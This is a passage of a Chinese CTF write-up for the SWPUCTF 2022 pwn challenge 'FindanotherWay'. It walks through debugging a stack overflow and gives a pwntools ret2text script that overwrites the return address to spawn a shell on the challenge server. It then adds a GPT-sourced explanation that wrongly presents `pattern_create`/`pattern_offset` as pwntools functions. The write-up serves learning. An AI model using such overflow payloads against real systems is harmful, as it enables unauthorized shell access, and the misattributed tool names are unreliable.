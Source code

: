 5. 已经确认攻击方式为栈溢出，打断点、定义hook用以查看状态，动态调试

![\[SWPUCTF 2022 新生赛]FindanotherWay-debug_1](images/[SWPUCTF 2022 新生赛]FindanotherWay-debug_1.png)

这里对于rsp栈帧后的监视稍微短了点，10wx长度更合理，补充查看

![\[SWPUCTF 2022 新生赛]FindanotherWay-debug_2](images/[SWPUCTF 2022 新生赛]FindanotherWay-debug_2.png)

发现函数返回点

![\[SWPUCTF 2022 新生赛]FindanotherWay-ret](images/[SWPUCTF 2022 新生赛]FindanotherWay-ret.png)

继续执行，输入测试数据AAAAAAAA，发现gets函数读取的数据从地址e018处开始存储

6. 计算padding：5x4=20个字符；跳转目标0x00401250，可以直接运行系统调用，拿到shell

![\[SWPUCTF 2022 新生赛]FindanotherWay-padding](images/[SWPUCTF 2022 新生赛]FindanotherWay-padding.png)

6. 构造payload

```python
from pwn import *
p = remote("node5.anna.nssctf.cn", 23479)
elf = ELF('./FindanotherWay')
padding = 20
rt_addr = 0x401250
payload = b'A'* padding + p64(rt_addr)
p.sendline(payload)
p.interactive()
```

7. 运行，成功获得shell

![\[SWPUCTF 2022 新生赛]FindanotherWay-shell](images/[SWPUCTF 2022 新生赛]FindanotherWay-shell.png)

8. 寻找flag，ls直接看到有flag

![\[SWPUCTF 2022 新生赛]FindanotherWay-flag](images/[SWPUCTF 2022 新生赛]FindanotherWay-flag.png)

## 四、总结与反思

- 解题收获：学习了简单栈溢出
- 不足之处：监视栈的时候没有把ret也监视到，稍微浪费了搜集信息时间
- 改进措施：更灵活的运用动调手段

### 关于python pwn库的一些其他用法（GPT解答）

在 CTF (Capture The Flag) 的 pwn 题目中，通常涉及到缓冲区溢出攻击。为了定位溢出位置和找到合适的返回地址，我们常常使用 `pattern_create` 和 `pattern_offset` 函数。这两个函数是 pwn 工具包（`pwntools`）中的工具，用于帮助我们生成特定的填充数据和定位溢出发生的位置。

#### `pattern_create` 和 `pattern_offset` 详解

##### 1. `pattern_create`

`pattern_create` 是一个用来生成特定模式的函数，目的是为填充缓冲区溢出攻击时使用。它生成的模式是一个易于区分的字符串，通常用于填充输入数据（比如发送给目标程序的 `payload`）。
